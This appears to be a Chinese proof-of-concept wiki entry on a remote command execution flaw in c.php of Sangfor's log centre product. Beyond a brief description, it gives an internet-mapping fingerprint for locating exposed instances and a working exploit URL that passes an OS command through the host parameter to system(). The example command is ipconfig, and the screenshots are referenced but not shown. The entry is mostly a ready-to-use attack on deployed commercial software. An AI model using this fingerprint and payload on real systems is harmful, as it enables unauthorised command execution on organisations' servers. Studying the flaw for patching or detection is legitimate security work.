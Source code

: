 # 深信服 日志中心 c.php 远程命令执行漏洞

## 漏洞描述

深信服 日志中心 c.php  远程命令执行漏洞，使用与EDR相同模板和部分文件导致命令执行

## 漏洞影响

<a-checkbox checked>深信服 日志中心</a-checkbox></br>

## 网络测绘

<a-checkbox checked>body="isHighPerformance : !!SFIsHighPerformance,"</a-checkbox></br>

## 漏洞复现

登录页面如下



![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131203508.png)



访问漏洞Url

```plain
/tool/log/c.php?strip_slashes=system&host=ipconfig
```

![img](/assets/PeiQi-Wiki/img/watermark,image_c2h1aXlpbi9zdWkucG5nP3gtb3NzLXByb2Nlc3M9aW1hZ2UvcmVzaXplLFBfMTQvYnJpZ2h0LC0zOS9jb250cmFzdCwtNjQ,g_se,t_17,x_1,y_10-20220313131203577.png)